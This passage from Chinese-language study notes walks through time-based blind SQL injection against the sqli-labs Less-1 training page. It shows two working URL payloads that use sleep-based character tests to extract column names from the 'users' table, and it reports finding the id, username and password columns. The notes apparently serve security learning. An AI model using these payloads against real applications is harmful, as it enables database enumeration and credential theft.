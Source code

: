 ```sql
//获取第二个字段名 对应 117 115 101 114 110 97 109 101-->username
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),1,1))=97,sleep(5),0) --+
```

![image-20240821150224702](assets/image-20240821150224702.png)

```sql
//获取第三个字段名 对应 112 97 115 115 119 111 114 100 -->password
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),2,1))=97,sleep(5),0) --+
```

![image-20240821150707118](assets/image-20240821150707118.png)

- 至此``数据库名:security``,``表名:users``,``字段名:id,username,password``均获取到了,数据就不展示了!

# 实例
